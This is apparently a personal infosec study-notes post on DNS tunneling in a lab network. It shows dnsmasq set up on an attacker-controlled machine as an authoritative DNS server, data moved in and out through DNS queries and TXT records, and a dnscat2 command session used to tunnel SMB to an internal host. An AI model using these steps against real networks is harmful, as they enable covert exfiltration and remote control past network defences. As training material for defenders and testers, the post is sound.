 ```yaml
---
layout: post
title: DNS Tunneling
titledate: 09/24/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "dnsmasq", "dnscat2"]
---
```


#### dns queries and exfiltration

let's say we have shell access to target1 a windows machine that can talk to the internal psql db and another WAN connected machine that can only talk to target1

if we have shell access to both machines we may want to make the external connected WAN machine a dns server and we can do this with dnsmasq

inside our WAN linux machine shell we configure dnsmasq

    $ cat dnsmasq.conf

    - auth-zone=feline.corp
    - auth-server=feline.corp

start the service 

    $ sudo dnsmasq -C dnsmasq.conf -d

inside another shell on our newly configured dns server we start listening on the interface

    $ sudo tcpdump -i ens192 udp port 53

now on our internal pg db machine we start making dns queries aimed at our WAN dns server we setup

    $ resolvectl status

let's make a dns request using our newly created domain

    $ nslookup ex-data.feline.corp

it cannot find our domain because it hasnt been configured yet

if we check our tcpdump activity we'll seee a dns request that's because our target1 windows machine knows the authoritative name server belogs to our WAN machine and forwards the request along

this shows how we can send small amounts of data from inside the network to an externa machine we can control

#### serving records and infiltrating

now let's kill the dnsmasq process we started above and try to serve txt records

edit the dnsmasq.conf 

    $ vim cat dnsmasq_txt.conf
    
    # TXT record
    txt-record=www.feline.corp,blah blah
    txt-record=www.feline.corp,blah blah something

restart using our new conf

    $ sudo dnsmasq -C dnsmasq_txt.conf -d

now back on our internally connected pg db system we can make a dns query for a txt record

    $ nslookup -type=txt www.feline.corp

and this is how we can infiltrate a network using dns

#### dnscat2

dnscat2 allows us to exfiltrate and infiltrate data

dnscat2 runs on an authoritative nameserver for a domain and any client queries for that domain are compromised

let's listen on port 53

    $ sudo tcpdump -i ens192 udp port 53

start the dnscat2 server

    $nameserver:> dnscat2-server feline.corp

now inside our INTERNAL pg db machine we run

    $pgdb:> ./dnscat feline.corp

if we run dnscat2 server now on our nameserver we shold see an established connection

    $nameserver:> ./dnscat feline.corp

simiar to metasploit we can now interact with this session

if we enter

    $ windows

    $ window -i 1

this will connect to our pg db session and list available commands

we can tunnel smb traffic through dns requests

    $ listen 127.0.0.1:4455 172.16.50.50:445

then in another shell we can enumerate these shares on on our internal smb machine through the port forward we have setup

    $ smbclient -p 4455 -L //127.0.0.1 -U admin --password=password
